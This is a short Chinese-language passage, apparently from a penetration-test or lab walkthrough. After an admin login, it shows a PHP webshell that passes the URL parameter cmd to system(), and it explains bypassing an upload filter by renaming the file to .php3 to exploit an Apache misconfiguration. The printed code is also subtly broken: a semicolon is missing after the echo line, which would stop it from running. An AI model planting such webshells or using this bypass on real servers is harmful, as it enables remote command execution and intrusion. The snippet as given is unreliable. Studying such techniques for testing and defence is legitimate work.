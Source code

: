 #### 成功登录管理员账号

![](img/newpic.png)


## 上传webshell

#### 构建简单的php代码，作为webshell
```
<?php 
echo 'hello world!'
system($_GET['cmd']); 
?>
```

#### 将其保存为webshell.php，上传文件失败

![](img/nophp.png)

#### 保存为webshell.php3，利用目标Apache服务器配置缺陷绕过扩展名限制并可以正常执行。`cmd=` 后可以输入命令

![](img/success.png)
